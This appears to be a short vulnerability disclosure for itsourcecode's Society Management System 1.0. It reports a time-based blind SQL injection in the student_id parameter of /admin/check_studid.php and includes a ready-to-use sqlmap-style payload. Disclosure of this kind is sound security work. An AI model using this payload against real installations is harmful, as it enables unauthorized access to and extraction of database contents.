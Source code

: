 # Vendor

itsourcecode

# Product

Society Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2021/04/Society-Management-System-Project-In-PHP-Free-Download-Source-Code.zip

# Description

After logging into the backend, administrators can query student IDs on the /admin/transaction.php page, but the query interface /admin/check_studid.php has an SQL injection vulnerability.
<img width="1097" alt="image" src="https://github.com/user-attachments/assets/24f54170-e4a3-4dd7-a6a4-3eeddec7ba3a">

# Poc
```
Parameter: student_id (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: student_id=21123123' AND (SELECT 1980 FROM (SELECT(SLEEP(5)))buvY) AND 'zeud'='zeud
```
